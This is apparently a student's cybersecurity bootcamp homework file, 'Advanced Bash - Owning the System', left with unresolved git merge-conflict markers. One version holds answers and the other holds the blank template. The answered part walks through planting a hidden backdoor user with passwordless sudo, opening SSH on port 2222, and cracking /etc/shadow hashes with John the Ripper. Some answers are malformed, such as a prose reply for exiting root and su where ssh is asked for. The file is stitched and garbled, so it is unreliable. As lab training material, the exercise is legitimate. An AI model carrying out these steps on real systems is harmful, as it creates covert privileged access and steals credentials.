 <<<<<<< HEAD
## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

         useradd -M sysd
![sysd](image\sysd.png)

2. Give your secret user a password: 

         passwd sysd
    ![password](image\password.png)

3. Give your secret user a system UID < 1000:

        usermod -u 997 sysd
    ![UIDandGID](image\UIDandGID.png)


4. Give your secret user the same GID:

        groupmod -g 997 sysd
    ![UIDandGID](image\UIDandGID.png)

5. Give your secret user full `sudo` access without the need for a password:

        
        visudo
        sysd ALL=(ALL) NOPASSWD:ALL
    ![sudo](image\sudo.png)
    



6. Test that `sudo` access works without your password:

        sudo -l
    ![sudofile](image\sudofile.png)

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ![sshfile.png](image\sshfile.png)
        

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

        sudo systemctl restart ssh



2. Exit the `root` account:

        command exit or command su with the user account you want to switch to.

3. SSH to the target machine using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222
![sshsysd.png](image\sshsysd.png)

4. Use `sudo` to switch to the root user:

        sudo su 

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

        su sysd

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file: 

        unshadow passwd.txt shadow.txt > unshadowed.txt
        john --wordlist=/usr/share/john/password.lst unshadowed.txt



---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

=======
# Bootcamp-Security

         Week 6 Homework Submission File: Advanced Bash - Owning the System
Please edit this file by adding the solution commands on the line below the prompt.
Save and submit the completed file for your homework submission.
Step 1: Shadow People


Create a secret user named sysd. Make sure this user doesn't have a home folder created:

Your solution command here

        hello world



Give your secret user a password:

Your solution command here



Give your secret user a system UID < 1000:

Your solution command here



Give your secret user the same GID:

Your solution command here



Give your secret user full sudo access without the need for a password:

Your solution command here



Test that sudo access works without your password:

Your bash commands here




Step 2: Smooth Sailing


Edit the sshd_config file:

Your bash commands here




Step 3: Testing Your Configuration Update


Restart the SSH service:

Your solution command here



Exit the root account:

Your solution command here



SSH to the target machine using your sysd account and port 2222:

Your solution command here



Use sudo to switch to the root user:

Your solution command here



Step 4: Crack All the Passwords


SSH back to the system using your sysd account and port 2222:

Your solution command here



Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

Your solution command here  
>>>>>>> 2619056d2767f9a581426d32e458ca20193dbc2e
